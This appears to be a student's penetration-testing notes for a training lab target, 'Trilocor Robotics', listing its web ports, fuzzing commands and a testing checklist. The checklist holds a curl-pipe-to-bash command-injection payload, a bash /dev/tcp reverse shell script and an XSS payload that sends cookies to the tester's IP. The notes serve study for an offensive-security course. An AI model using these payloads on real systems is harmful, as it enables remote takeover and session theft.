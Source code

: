 # Trilocor Robotics Ltd. Notes
## General
IP:
```
10.129.205.208
```

| URL                             | Description           |
| ------------------------------- | --------------------- |
| www.trilocor.local:80           | Main Trilocor website |
| http://www.trilocor.local:8009  | PR website            |
| http://www.trilocor.local:8080/ | Jobs portal           |
| http://www.trilocor.local:8088  | HR website            |
| http://www.trilocor.local:9000  | Online shop           |

# Testing Notes
Go through all sites looking for:
- HTTP Verb Tampering [[Cybersecurity/CBBH Modules/2. Authentication & Session Handling/4. HTTP Verb Tampering/Reference|Reference]]
- Command Injection
	- In front of JSON data on APIs
	- Everywhere on POST requests where data is being sent/requested 
		- Use the following to test for this:
		- payload: `curl http://10.10.14.17:80/rev.sh|bash`
			- **Don't URL encode first, then URL encode if it doesn't work**
		- Listen with python server: `python -m http.server 80`
		- Make file called `rev.sh`: `#!/bin/bash \n /bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.17/4561 0>&1'`
- Test ALL input fields (password reset forms) for sqli with simple payloads
	- only if then you find vulnerability, use sqlmap
- Run Nikto on "unauthorized" directories
	- if you find "cookie created without httponly flag" we can:
		- start python server: `python3 -m http.server 80`
		- put xss payload in User-Agent header: `"<img src=x onerror=fetch('http://10.10.14.17/?c='+document.cookie;>"`
		- send this in burp and now you should be authorized now by using stolen cookie
- Javascript DE obfuscation everything!
- Check `Network` when viewing developer tools on each page
## Main Site: www.trilocor.local:80
**Fuzzing:**
```
ffuf -w subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.trilocor.local
```
- Subdomains Found: 
	- admin (wp site)
	- blog
```
ffuf -w directory-list-2.3-small.txt:FUZZ -u http://www.trilocor.local:80/FUZZ -recursion -recursion-depth 3 -v
```
- Directories Found:
	- wp-content (admin subd)
	- wp-includes (admin subd)
	- wp-admin (admin subd)
		-  admin-ajax.php
	- wp-login.php (admin subd)
	- index.php